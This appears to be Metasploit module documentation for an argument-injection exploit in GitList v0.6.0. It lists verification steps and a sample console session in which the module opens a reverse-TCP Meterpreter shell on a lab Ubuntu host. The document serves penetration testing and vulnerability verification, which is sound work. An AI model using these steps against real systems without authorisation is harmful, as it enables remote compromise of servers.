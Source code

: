 ## Description

  This module exploits an argument injection vulnerability in GitList v0.6.0

## Vulnerable Application

  GitList v0.6.0

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use [exploit/multi/http/gitlist_arg_injection]`
  4. Do: `set RHOSTS [IP]`
  5. Do: `run`
  6. You should get a session.

## Scenarios

### Tested on Ubuntu 18.04 x64

  ```
  msf > use exploit/multi/http/gitlist_arg_injection
  msf exploit(multi/http/gitlist_arg_injection) > set rhosts 192.168.37.141
  rhosts => 192.168.37.141
  msf exploit(multi/http/gitlist_arg_injection) > check
  [+] 192.168.37.141:80 The target is vulnerable.
  msf exploit(multi/http/gitlist_arg_injection) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (37775 bytes) to 192.168.37.141
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.141:35804) at 2018-07-05 14:22:39 -0500

  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter >

  ```
